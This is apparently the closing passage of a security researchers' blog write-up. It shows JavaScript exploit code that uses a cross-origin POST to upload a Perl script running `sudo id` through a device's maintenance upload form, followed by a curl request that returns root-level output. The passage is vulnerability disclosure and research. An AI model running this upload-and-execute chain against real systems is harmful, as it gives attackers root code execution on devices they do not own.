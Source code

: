 ```javascript
            "referrer": "http://owlland/config.pl?uid=h5wxiUFQp6yF4RfDRw14AmRkMGDdxSoGR0kuU3QP9Q;_multi_part_form=1;mb_config=maintenance;maintenance_act=upload_tpc;r=k3snhvj7694",
            "body": "-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_form_has_changed\"\r\n\r\n0\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"uid\"\r\n\r\n" + window.frames["pwn2"].contentDocument.forms[0]["uid"].value + "\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_FORM_SUBMIT\"\r\n\r\n1\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_RAN\"\r\n\r\n99993948\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_STRIP\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_FORM_POSITION\"\r\n\r\n0\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_DATA_FIELDS\"\r\n\r\nfile_name\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_NUMBER_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_POPUP_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_NETMASK_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_IP_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_IP_FIELDS_NUMERIC\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_GT_ZERO_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_GE_ZERO_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_EMAIL_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_PASSWORD_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_FILE_FIELDS\"\r\n\r\nfile_name\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_REQUIRED_FIELDS\"\r\n\r\nfile_name\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_UNIQUE_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_HIDDEN_FIELDS\"\r\n\r\n\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"_multi_part_form\"\r\n\r\n1\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"file_name\"; filename=\"0xCC.pl\"\r\nContent-Type: text/x-perl-script\r\n\r\nprint `sudo id`;\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"mb_config\"\r\n\r\nmaintenance\r\n-----------------------------342766341182433198532876615\r\nContent-Disposition: form-data; name=\"maintenance_act\"\r\n\r\nupload_tpc\r\n-----------------------------342766341182433198532876615--\r\n",
            "method": "POST",
            "mode": "cors"
            });
        }  
    });

    document.body.appendChild(f);
    
    
});
document.body.appendChild(i);
``` 
And finally:

```
ᐓ   curl http://192.168.0.20/tpc/0xCC.pl
uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```
**:)**

# EoF

This wasn't really a holy bug, however discovering it was fun because we had to learn a bit about ancient horrors like source filters. We hope you enjoyed this reading! 

Feel free to give us feedback at our twitter [@AdeptsOf0xCC](https://twitter.com/AdeptsOf0xCC).

